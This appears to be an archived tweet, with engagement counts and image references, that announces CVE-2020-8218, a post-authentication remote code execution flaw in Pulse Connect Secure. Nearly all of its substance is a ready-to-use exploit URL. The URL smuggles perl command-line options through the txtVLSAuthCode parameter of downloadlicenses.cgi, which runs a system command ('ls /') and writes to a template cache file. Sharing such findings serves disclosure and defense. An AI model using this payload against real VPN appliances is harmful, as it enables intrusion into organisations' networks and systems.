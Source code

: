 <td><img src="pictures/b6575093f771d363f942e99fc19a0deea821feeee52b823ebd5b0bb1fe784e26.jpg" alt="b6575093f771d363f942e99fc19a0deea821feeee52b823ebd5b0bb1fe784e26.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>142</code></td>
<td>Favorites: <code>319</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1299218892657586176 _at 2020-08-28, 05:34:56_**
<blockquote>
CVE-2020-8218 Pulse Connect Secure post-auth RCE

https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc
